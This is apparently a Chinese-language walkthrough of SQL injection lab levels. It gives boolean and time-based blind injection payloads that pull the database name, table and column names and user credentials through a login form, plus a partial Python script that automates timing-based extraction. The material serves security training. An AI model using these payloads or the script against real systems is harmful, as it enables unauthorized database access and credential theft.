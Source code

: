 成功登陆没有返回信息，需要盲注

**方法一：报错型**

报错注入方法，闭合方式为')其余部分和11相同。

**方法二：时间盲注**

```
uname=admin') and if(left(database(),1)='s',sleep(3),1) # &passwd=admin&submit=Submit
```



### 14

修改闭合方式为""，同13.

### 15

布尔测试：

```
uname=admin' and 1=1 #&passwd=admin&submit=Submit    //登陆成功
uname=admin' and 1=2 #&passwd=admin&submit=Submit    //登录失败
```

时间延迟测试：

```
uname=admin' and sleep(5) #&passwd=admin&submit=Submit
```

```
时间延迟：

uname=admin' and if(length(database())=8,sleep(5),1)#&passwd=admin&submit=Submit
 
uname=admin' and if(left(database(),1)='s',sleep(5),1)#&passwd=admin&submit=Submit
 
uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)#&passwd=admin&submit=Submit
 
uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)#&passwd=admin&submit=Submit
uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)#&passwd=admin&submit=Submit
 
uname=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)#&passwd=admin&submit=Submit
```



```
#脚本
##延时型
import requests
import time
value ="0123456789abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%&^@_.-!"
result=""
 
def get_length():#获取数据的长度
    for n in range(1, 100):
        payload = "admin' and if((length(({0} ))={1}),sleep(4),1) #".format(data_payload, n)
        data = {"uname": payload, "passwd": "admin", "submit": "submit"}
        start_time = time.time()
        html = requests.post(url, data=data)
        end_time = time.time()
        use_time = end_time - start_time #求出请求前后的时间差来判断是否延时了
        if use_time > 3:
            print("...... data's length is :"+ str(n))
```